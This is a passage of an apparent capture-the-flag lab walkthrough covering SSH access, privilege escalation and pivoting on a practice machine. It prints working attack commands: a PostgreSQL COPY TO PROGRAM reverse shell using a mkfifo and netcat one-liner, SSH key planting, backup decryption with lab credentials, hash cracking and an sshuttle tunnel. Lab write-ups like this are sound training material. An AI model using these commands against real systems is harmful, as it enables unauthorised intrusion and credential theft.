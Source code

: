Crack hash online (CrackStation or similar) to get password `ThePlague61780`.

## 5\. SSH to Linux Machine as User ebelford

```plaintext
sshpass -p'ThePlague61780' ssh -o StrictHostKeyChecking=no ebelford@drip.htb
```

## 6\. Privilege Escalation on Linux to PostgreSQL User

Locate Dashboard `.env` containing DB creds:

```plaintext
cat /var/www/html/dashboard/.env
# Contains: DB_USERNAME=dripmail_dba, DB_PASS=2Qa2SsBkQvsc
```

Reverse Shell via PostgreSQL:

```plaintext
rlwrap nc -lnvp 4242
PGPASSWORD=2Qa2SsBkQvsc psql -h localhost -U dripmail_dba -d dripmail -c "COPY (SELECT '') TO PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc <YourIP> 4242 >/tmp/f'"
```

Add SSH key and login as postgres:

```plaintext
mkdir -p ~/.ssh && echo "ssh-ed25519 AAAA...user-key..." > ~/.ssh/authorized_keys
ssh postgres@drip.htb
```

## 7\. Extract More Credentials from Backups

Locate encrypted PostgreSQL backup:

```plaintext
ls -la /var/backups/postgres/
```

Decrypt backup with DB password:

```plaintext
gpg --homedir /var/lib/postgresql/.gnupg --pinentry-mode=loopback --passphrase '2Qa2SsBkQvsc' --decrypt /var/backups/postgres/dev-dripmail.old.sql.gpg > dev-dripmail.old.sql
```

Extract users and hashes from decrypted file:  
User `victor.r` with hash `cac1c7b0e7008d67b6db40c03e76b9c0`.

Crack victor.r’s password:  
`victor1gustavo@#`.

## 8\. Internal Pivot: SSHuttle VPN Tunnel into Internal Network

```plaintext
sshuttle -r ebelford:'ThePlague61780'@drip.htb -N 172.16.20.0/24
echo -e "172.16.20.1 DC-01.darkcorp.htb
172.16.20.2 WEB-01.darkcorp.htb" | sudo tee -a /etc/hosts
```
